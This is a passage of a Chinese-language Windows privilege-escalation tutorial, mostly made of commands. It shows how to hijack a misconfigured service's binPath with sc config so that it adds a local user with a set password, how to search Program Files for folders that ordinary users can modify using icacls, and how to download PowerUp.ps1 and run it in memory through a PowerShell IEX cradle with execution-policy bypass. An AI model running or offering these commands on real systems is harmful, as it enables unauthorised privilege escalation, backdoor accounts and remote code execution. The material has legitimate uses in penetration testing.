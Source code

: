 ```bash
# 注意这里的"="后面要留有空格
sc config VMTools binPath= "net user test1 P@ssw0rd /add"  

# 查看查询该服务的执行路径是否修改成功
sc qc VMTools  

# 记得重启服务
sc stop VMTools
sc start VMTools

# 这里启动时可能存在报错，服务和 Windows 系统服务控制管理器通信会被认为错误，但命令会正常执行
```

自带命令 `icacls`  
命令如下

```bash
确定写入权限：icacls "C:\Program Files\program folder"
## 定义：
「M」表示修改、「F」表示完全控制
「CI」代表从属容器将继承访问控制项
「OI」代表从属文件将继承访问控制项

常用命令
icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "Everyone"

icacls "C:\Program Files(x86)\*" 2>nul | findstr "(M)" | findstr "Everyone"

icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users"
icacls "C:\Program Files(x86)\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users"
```

### PowerSploit

利用 powershell 命令远程下载调用

```bash
powershell.exe -exec bypass -nop -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks"

powershell.exe -exec bypass -Command "& {Import-Module D:/PowerUp.ps1; Invoke-AllChecks}" > 1.txt
```

[![](assets/1709014237-9f13c46c15d904a79ed6771f4ce1191d.png)](https://cdn.nlark.com/yuque/0/2023/png/12710625/1696646494329-3f8e16fb-2c47-424b-a886-2c8aee0a2c98.png#averageHue=%23fcfbf9&clientId=u08e1c2d2-d79d-4&from=paste&height=284&id=ud83136c2&originHeight=568&originWidth=1476&originalType=binary&ratio=2&rotation=0&showTitle=false&size=485000&status=done&style=none&taskId=uea497478-db9a-4438-9c0a-9f147a1deca&title=&width=738)
